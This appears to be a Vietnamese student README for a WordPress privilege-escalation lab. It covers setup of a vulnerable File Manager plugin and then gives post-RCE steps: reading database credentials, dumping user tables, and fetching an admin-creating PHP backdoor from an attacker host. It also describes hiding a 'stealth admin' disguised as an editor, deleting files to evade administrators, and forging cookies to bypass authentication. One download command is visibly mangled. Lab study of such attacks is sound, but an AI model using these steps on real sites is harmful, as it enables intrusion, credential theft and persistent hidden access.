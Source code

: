 # WordPress-Privilege-Escalation

**Author:** Dang Duy Hau <br>
**Affiliation:** Hanoi University of Science and Technology <br>

Thank you, Dr. Vu Thanh Nam, for helping me develop this project.

## Set up environment

1. Cài WordPress thủ công trên Ubuntu

- Máy ảo VirtualBox (dùng Ubuntu 20.04LTS)
- Cài Apache, MySQL, PHP
- Cấu hình MySQL
- Tạo database

2. Tải WordPress và giải nén

3. Cấu hình Apache Virtual Host (nếu cần)

- Kích hoạt:
  sudo a2ensite wordpress.conf
  sudo a2enmod rewrite
  sudo systemctl restart apache2

4. Cài đặt WordPress trong trình duyệt
   Truy cập http://localhost để hoàn tất setup → nhập thông tin DB: DB name, username, password

5. Tải Plugin File Manager bản cũ (<= 6.8)
   Giải nén và cài:
   unzip wp-file-manager.6.8.zip
   sudo mv wp-file-manager /var/www/html/wp-content/plugins/
   sudo chown -R www-data:www-data /var/www/html/wp-content/plugins/wp-file-manager

6. Xử lý lỗi
   Khi truy cập http://localhost thì xảy ra lỗi:
   Hiện bạn đang thấy trang mặc định của Apache2, không phải trang cài đặt WordPress. Điều này có nghĩa là Apache đang phục vụ file mặc định /var/www/html/index.html thay vì WordPress. Đây là lỗi phổ biến, và bạn chỉ cần xử lý một bước sau để chuyển hướng đúng đến WordPress.
   Nguyên nhân: Trang Apache mặc định vẫn tồn tại trong /var/www/html/ chứa file: /var/www/html/index.html
   Trong khi WordPress nằm ở: /var/www/html/wordpress/ hoặc /var/www/html/ (nếu bạn đã move toàn bộ)
   Cách xử lý lỗi để hiển thị trang cài đặt WordPress:
   
   Bước 1: Xóa file mặc định index.html: sudo rm /var/www/html/index.html, File này đang "chắn đường" WordPress, nên Apache hiển thị nó thay vì WordPress index.php.
   
   Bước 2: Kiểm tra thư mục chứa WordPress:
   Nếu bạn chạy: ls /var/www/html/
   Bạn nên thấy:
   index.php wp-config-sample.php wp-content/ wp-includes/ wp-admin/ ...
   Nếu thấy wordpress/ thì bạn cần move lại:
   sudo mv /var/www/html/wordpress/_ /var/www/html/
   sudo mv /var/www/html/wordpress/._ /var/www/html/ 2>/dev/null
   sudo rmdir /var/www/html/wordpress/
   
   Bước 3: Cấp quyền lại cho Apache
   sudo chown -R www-data:www-data /var/www/html/
   sudo find /var/www/html/ -type d -exec chmod 755 {} \;
   sudo find /var/www/html/ -type f -exec chmod 644 {} \;
   
   Bước 4: Khởi động lại Apache
   sudo systemctl restart apache2
   Bước 5: Truy cập lại trình duyệt
   Mở lại trình duyệt:
   👉 http://localhost

Bạn sẽ thấy giao diện cài đặt WordPress:
Chọn ngôn ngữ → Nhập thông tin database → Tạo admin user
=>>> Okela
Một số lệnh tạo môi trường để thực hiện pentest:
python3 -m venv myenv
source myenv/bin/activate
pip3 install -r requirements.txt

Cách truy vấn cơ sở dữ liệu khi đã RCE:

- Khi đã có quyền www-data: dò tìm các thông tin liên quan đến CSDL: username, password, tên CSDL, được thông tin:
  (hau)cat /var/www/html/wp-config.php | grep DB\_

- Sau đó truy cập với quyền này vào CSDL, liệt kê các bảng trong CSDL:
  (hau)mysql -u wpuser -p'qwerty' -e "SHOW TABLES;" wordpress

- Rồi tiếp tục trích xuất thông tin nhạy cảm từ các bảng của CSDL, do với mục đích leo thang lấy quyền admin nên chúng ta sẽ khai thác trên bảng dữ liệu này, lấy thông tin của bảng user:
  (hau)mysql -u wpuser -p'qwerty' -e 'DESCRIBE wp_users;' wordpress

- Xem các thông tin bảng Users:
  (hau)mysql -u wpuser -p'qwerty' -e 'SELECT \* FROM wp_users;' wordpress

---

Trong quá trình khai thác hệ thống thông qua lỗ hổng RCE (Remote Code Execution), không thể sử dụng giao diện tương tác của MySQL bằng cách gọi trực tiếp lệnh mysql -u wpuser -p'qwerty' wordpress và sau đó nhập từng câu lệnh SQL như SHOW TABLES; do hạn chế của môi trường thực thi. Cụ thể, khi truy cập qua webshell hoặc kênh RCE, môi trường shell không cung cấp đầy đủ các tính năng của một terminal tương tác, chẳng hạn như không hỗ trợ TTY, không có đầu vào chuẩn (stdin) và đầu ra chuẩn (stdout) truyền thống. Do đó, các lệnh SQL nhập vào sau khi khởi động MySQL shell sẽ không được thực thi hoặc không hiển thị kết quả.
Thay vào đó, sử dụng cú pháp dòng lệnh dạng non-interactive với tùy chọn -e, cho phép thực hiện truy vấn SQL trực tiếp trong một lần gọi lệnh, ví dụ: mysql -u wpuser -p'qwerty' -e 'SHOW TABLES;' wordpress. Phương pháp này giúp MySQL thực thi lệnh ngay lập tức và trả về kết quả ra đầu ra chuẩn, phù hợp với điều kiện hạn chế của môi trường RCE. Việc sử dụng lệnh -e trong mọi truy vấn SQL là cần thiết để đảm bảo quá trình truy xuất dữ liệu từ cơ sở dữ liệu được thực hiện trơn tru và có thể quan sát được kết quả.

Kiểm tra quyền admin của các user hiện tại:
(hau)mysql -u wpuser -p'qwerty' -e "SELECT \* FROM wp_usermeta WHERE meta_key='wp_capabilities';" wordpress

---

- thêm người dùng:
  Dưới đây là một file PHP đơn giản dùng để tạo tài khoản admin mới trong WordPress, bằng cách sử dụng đúng hàm wp_create_user() và wp_insert_user() của WordPress – đảm bảo đúng chuẩn hệ thống và tránh lỗi hash password.

1. Tạo file PHP tên add-admin.php với nội dung như trong file đã cung cấp (add-admin.php)
2. Upload file này lên thư mục gốc WordPress: Qua webshell / RCE → đưa add-admin.php vào cùng nơi với wp-load.php: /var/www/html/
3. Truy cập file này trên trình duyệt: http://target-site.com/add-admin.php
   Nếu thành công, bạn sẽ thấy: Administrator account created successfully!
4. Đăng nhập WordPress:
   Địa chỉ đăng nhập: http://target-site.com/wp-login.php

Gỡ file ngay sau khi xong: Vì file này cho phép tạo admin, bạn cần xóa nó để tránh bị người khác khai thác, hoặc bị phát hiện bởi quản trị viên server, có thể để xóa tự động:
rm /var/www/html/wordpress/add-admin.php

Dùng webshell để tải file từ máy tấn công:
Bước 1: Tạm thời mở HTTP server trên máy tấn công
Trên máy tấn công, chạy: python3 -m http.server 8000
→ Lúc này file add-admin.php sẽ có URL là: http://<YOUR-IP>:8000/add-admin.php
Bước 2: Dùng webshell hoặc RCE để tải về
Trên máy nạn nhân (qua shell), chạy: http://<YOUR-IP>:8000/add-admin.php -O /var/www/html/addwget-admin.php
Bước 3: Truy cập script trên trình duyệt: http://<VICTIM-DOMAIN>/add-admin.php
Bước 4: Xóa script sau khi dùng xong: rm /var/www/html/add-admin.php

---

Dưới đây là một script SQL bạn có thể chạy (qua RCE hoặc MySQL shell) để tạo một tài khoản trông như là "Editor" nhưng thực ra có đầy đủ quyền "Administrator" – một kỹ thuật "stealth admin" thường được dùng để ẩn backdoor khỏi mắt người kiểm tra.
Ngữ cảnh:
Bạn đã RCE được và có quyền truy cập database.
Bạn muốn tạo một tài khoản editor giả mạo để lẩn tránh, nhưng vẫn có quyền admin đầy đủ.
Khi đăng nhập:
Giao diện hiển thị như Editor
Nhưng thực ra có thể làm mọi thứ như Admin (nếu plugin/theme không che giấu)
Mẹo ẩn mình:
Có thể đổi display_name thành Support, Bot, Editor Helper...
Không dùng tên kiểu admin, root, superuser dễ gây nghi ngờ.

Dưới đây là file PHP stealth admin script - nó sẽ (file này xin phép không cung cấp):

Tạo tài khoản WordPress mới có tên hiển thị như một editor bình thường

Nhưng thực chất có đặc quyền administrator

Và gửi thông báo về máy tấn công (tuỳ chọn, dễ mở rộng)

Tự động xóa chính nó sau khi chạy xong

---

Trong mã khai thác mà đang sử dụng, đường dẫn /wp-admin/options-general.php?page=licence được sử dụng để tải tệp lên thông qua một form trong trang quản trị của WordPress. Tuy nhiên, WordPress yêu cầu đăng nhập trước khi cho phép truy cập vào trang quản trị này, và do đó lỗi yêu cầu trang đăng nhập xảy ra. Điều này có thể xử lý bằng đăng nhập với các cookie sinh ra bằng các hàm ngẫu nhiên nhằm vượt qua xác thực.
Mặc dù mô tả trong CVE-2024-51788 có nói rằng lỗ hổng cho phép không cần xác thực để tải lên tệp, lỗi xác thực không đúng có thể xảy ra trong plugin hoặc cấu hình của hệ thống, khiến khi gửi yêu cầu tới /wp-admin/options-general.php?page=licence WordPress vẫn yêu cầu đăng nhập.

Lý do tại sao mã khai thác vẫn yêu cầu đăng nhập:
Lỗi xác thực không đúng có thể có trong plugin hoặc trong WordPress. Cụ thể:
Plugin không kiểm tra đúng quyền truy cập khi tải lên tệp. Có thể plugin đã cấu hình endpoint /wp-admin/options-general.php?page=licence mà không thực sự bỏ qua xác thực (hoặc bỏ qua kiểm tra quyền truy cập).
WordPress mặc định yêu cầu đăng nhập vào admin trước khi có thể truy cập vào các trang quản trị (bao gồm trang cấu hình của plugin).

Cách khắc phục: Sửa mã khai thác
Để bỏ qua yêu cầu đăng nhập, bạn sẽ cần phải đăng nhập tự động hoặc tắt yêu cầu đăng nhập nếu có vấn đề với plugin hoặc WordPress.

Xử lý đăng nhập tự động:
Như đã đề cập trong các bước trước, có thể sử dụng cookies hợp lệ hoặc đăng nhập tự động vào WordPress để bỏ qua trang login.

Giải pháp tạm thời:
Mục đích là để bypass (vượt qua) trang đăng nhập mà không cần thực sự đăng nhập thủ công. Điều này có thể được thực hiện bằng cách:
Sử dụng cookies hợp lệ: Mã khai thác sẽ gửi một cookie ngẫu nhiên hoặc giả mạo một người dùng đã đăng nhập.
Sử dụng session: Gửi yêu cầu đăng nhập hợp lệ để lấy cookies, và sau đó tiếp tục gửi yêu cầu tải lên mà không bị yêu cầu đăng nhập lại.
Tuy nhiên, như đã giải thích trước, việc này không hoàn toàn phù hợp với mô tả của CVE, vì CVE này mô tả lỗ hổng không yêu cầu xác thực và bypass được xác thực để tải tệp lên. Nếu muốn khắc phục vấn đề này theo đúng mô tả CVE, chúng ta sẽ cần kiểm tra lại cấu hình plugin hoặc cấu hình của WordPress.
